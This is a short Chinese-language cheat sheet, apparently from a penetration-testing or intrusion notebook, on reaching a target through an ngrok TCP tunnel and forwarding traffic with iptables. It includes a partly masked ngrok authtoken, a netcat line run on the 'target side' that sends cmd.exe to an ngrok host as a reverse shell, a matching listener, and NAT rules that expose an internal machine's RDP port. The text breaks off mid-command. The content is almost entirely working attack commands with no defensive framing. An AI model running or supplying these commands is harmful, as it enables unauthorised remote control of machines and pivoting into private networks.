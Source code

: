 **下载与注册**

官网下载：[https://ngrok.com/](https://ngrok.com/)

口令至少10位

**本地注册**

```text
./ngrok authtoken 5Ed5CTPFzS3**********_**********1E3ubPjGUfM
```

**使用**

```text
./ngrok tcp 9999
```

**目标端**

```text
nc.exe 0.tcp.ngrok.io 14*** -e C:\Windows\System32\cmd.exe
```

**Linux端**

```text
nc -vv -l -p 9999
```

**iptables**

```text
echo 1 >/proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 8888 -j DNAT --to-destination 192.168.111.251:3389
iptables -t nat -A POSTROUTING -d 192.168.111.251 -p tcp --dport 3389 -j SNAT --to 192.168.111.41
```

查看规则：

```text
iptables -L -t nat
```

![](https://p408.ssl.qhimgs4.com/t0120fa8356b3c23ee2.png)

有些系统需要保存与重启，有些系统不需要：

```text
service iptables save
service iptables restart
```

直接访问192.168.111.41的8888端口

![](https://p408.ssl.qhimgs4.com/t01b2bab13ebd7a60bb.png)

删除规则：

```text
iptables -D INPUT 3  //删除input的第3条规则  
iptables -t nat -D POSTROUTING 1  //删除nat表中postrouting的第一条规则  
iptables -F INPUT   //清空 filter表INPUT所有规则  
iptables -F    //清空所有规则  
iptables -t nat -F POSTROU
```

